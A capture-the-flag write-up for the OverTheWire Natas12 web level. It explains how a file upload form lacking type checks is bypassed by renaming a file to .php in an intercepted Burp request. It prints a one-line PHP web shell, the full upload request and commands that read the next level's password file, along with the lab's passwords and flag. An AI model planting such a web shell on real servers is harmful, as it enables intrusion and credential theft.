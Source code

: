 # CTF Writeup - **OverTheWire Natas11 - Natas12**

**Author**: spiketyson 

---

## Challenge Details

- **Challenge Name:** Natas11 - Natas12
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 10-12-2024

---

## Summary

This challenge is the introductory level for the Natas series on OverTheWire, focusing on web exploitation. The goal is to find the flag that is hidden web server using burpsuite if possible.

---

## Approach

Since this is an basic challenge, I planned to use inspect element to troubleshoot and find the flag.

---

## Solution Walkthrough

Connecting to the web server using:

```bash
Username: natas12
Password: yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB
URL:      http://natas12.natas.labs.overthewire.org
```

After logging in, we can see that the webpage asks for image as input.  But we dont know anything about it, So lets input some random image and check it out. 

```bash
Choose a JPEG to upload (max 1KB):
|Choose File|  No file chosen
Upload File  
```

Now we need to find the image to input to get the flag. Let view the source code. 

```bash
# <html>
# <head>
# <!-- This stuff in the header has nothing to do with the level -->
# <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
# <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
# <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
# <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
# <script>var wechallinfo = { "level": "natas12", "pass": "<censored>" };</script></head>
# <body>
# <h1>natas12</h1>
# <div id="content">
# <?php

# function genRandomString() {
#     $length = 10;
#     $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
#     $string = "";

#     for ($p = 0; $p < $length; $p++) {
#         $string .= $characters[mt_rand(0, strlen($characters)-1)];
#     }

#     return $string;
# }

# function makeRandomPath($dir, $ext) {
#     do {
#     $path = $dir."/".genRandomString().".".$ext;
#     } while(file_exists($path));
#     return $path;
# }

# function makeRandomPathFromFilename($dir, $fn) {
#     $ext = pathinfo($fn, PATHINFO_EXTENSION);
#     return makeRandomPath($dir, $ext);
# }

# if(array_key_exists("filename", $_POST)) {
#     $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


#         if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
#         echo "File is too big";
#     } else {
#         if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
#             echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
#         } else{
#             echo "There was an error uploading the file, please try again!";
#         }
#     }
# } else {
# ?>

# <form enctype="multipart/form-data" action="index.php" method="POST">
# <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
# <input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
# Choose a JPEG to upload (max 1KB):<br/>
# <input name="uploadedfile" type="file" /><br />
# <input type="submit" value="Upload File" />
# </form>
# <?php } ?>
# <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
# </div>
# </body>
# </html>
```

We can see that there is a form which takes our input, and when we submit the input there is a php code which gets executed on the input, Where there are 3 main function, `genRandomString` is the function that has generates a random string with 10 characters. `makeRandomPath` function takes the directory and the files extension and then creates the path with the random string for example `upload/12345abcde.jpg` file is created. `makeRandomPathFromFilename` whenever the files is uploaded this funciton creates a path in the directory with the previous funciton and then copies the uploaded file to that path. We can see that in the `html` there is no input check for what kind of file that has been uploaded. we can upload anyfile that we want. This is interesting for us, as we can now upload a php code to open a shell for us and access the files in the files system as shown below.

```bash
# Create a php file with the below code
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```

Now, What this php code does is that if it gets executed then it executes anything that we append at the end of the url. For example `http://natas12.natas.labs.overthewire.org/index.php?e=ls` if we see here we have entered the variable `e` to take `ls` and when we enter such urls it will make a get request and value of e is executed in the shell as it will be running in the webserver. Before uploading we need to check how its sent to the server so start the burpsuite with the intercept on and then upload the file and submit it. We can see that the file is getting saved as `zzkcpd7s0d.jpg` so we need to change it as `zzkcpd7s0d.php` before forwarding. 

```bash
# POST /index.php HTTP/1.1
# Host: natas12.natas.labs.overthewire.org
# Content-Length: 461
# Cache-Control: max-age=0
# Authorization: Basic bmF0YXMxMjp5WmRrakFZWlJkM1I3dHE3VDVrWE1qTUpsT0lrekRlQg==
# Accept-Language: en-US,en;q=0.9
# Origin: http://natas12.natas.labs.overthewire.org
# Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysR3wS37InhEs5eFb
# Upgrade-Insecure-Requests: 1
# User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
# Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
# Referer: http://natas12.natas.labs.overthewire.org/
# Accept-Encoding: gzip, deflate, br
# Connection: keep-alive

# ------WebKitFormBoundarysR3wS37InhEs5eFb
# Content-Disposition: form-data; name="MAX_FILE_SIZE"

# 1000
# ------WebKitFormBoundarysR3wS37InhEs5eFb
# Content-Disposition: form-data; name="filename"

 zzkcpd7s0d.jpg
# ------WebKitFormBoundarysR3wS37InhEs5eFb
# Content-Disposition: form-data; name="uploadedfile"; filename="abc.php"
# Content-Type: application/octet-stream

# <?php echo shell_exec($_GET['e'].' 2>&1'); ?>
# ------WebKitFormBoundarysR3wS37InhEs5eFb--
```

After forward the request we can see that the `The file upload/v6lm2uilp9.php has been uploaded` message getting displayed. Now lets try to access this php file through the browser by clicking the uploaded file. Once we do that we can see that the url is `http://natas12.natas.labs.overthewire.org/upload/v6lm2uilp9.php` and the message is `Notice: Undefined index: e in /var/www/natas/natas12/upload/v6lm2uilp9.php on line 1`. Here it is very clear that it is looking for the e value in the url as we have given it in the php file. Lets try putting something in the url as shown below.

```bash
http://natas12.natas.labs.overthewire.org/upload/v6lm2uilp9.php?e=pwd
# /var/www/natas/natas12/upload
```
Now we are able to access anything in the file system. Lets try to access the password of the next level as shown below.

```bash
http://natas12.natas.labs.overthewire.org/upload/v6lm2uilp9.php?e=cat /etc/natas_webpass/natas13
# The password for natas13 is trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```

## Flag

**Flag:** trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC

---

## Lessons Learned

It was a very hard challenge where i was stuck for a very long time. It took me more time to understand and it was also a pain as the php is deleted by the antivirus. 